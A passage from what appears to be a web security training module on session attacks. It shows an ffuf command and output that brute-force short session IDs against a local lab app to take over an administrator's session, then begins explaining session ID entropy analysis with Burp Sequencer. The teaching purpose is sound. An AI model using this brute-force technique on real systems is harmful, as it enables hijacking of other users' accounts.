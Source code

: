 We can now use `ffuf` to fuzz all valid session IDs:

```shell
ffuf -u http://127.0.0.1/profile.php -b 'sessionID=FUZZ' -w wordlist.txt -fc 302 -t 10

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1/profile.php
 :: Wordlist         : FUZZ: wordlist.txt
 :: Header           : Cookie: sessionID=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

a7sh                    [Status: 200, Size: 2262, Words: 497, Lines: 67, Duration: 6ms]

```

We found another valid session ID. After using it in Burp, we can see that we have successfully taken over the administrator's session:

![image](https://academy.hackthebox.com/storage/modules/189/session_puzzling/shortids_2.png)

* * *

## Insufficient Randomness in Session IDs

Additionally to being sufficiently long, session IDs need to be sufficiently random. If the randomness is insufficient or there are detectable patterns in the session IDs, an attacker might be able to brute-force other users' session IDs like before. Randomness is generally measured using `entropy`. To be considered secure, session IDs should provide at least 64 bits of entropy according to [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#session-id-entropy).

If we log in to the web application, we can see that the server sets a sufficiently long session ID that looks random:

![image](https://academy.hackthebox.com/storage/modules/189/session_puzzling/lowentropy_1.png)

To analyze the entropy of session IDs, we can use `Burp Sequencer`. To do so, we right-click the login request in Burp and click on `Send to Sequencer`. Afterward, switch to the Sequencer Tab. Make sure that Burp automatically detected the session cookie in the `Token Location Within Response` field and that the `Cookie` option is selected. We could also specify a custom location if we wanted to analyze the entropy of a different field in the response. Afterward, start the live capture.
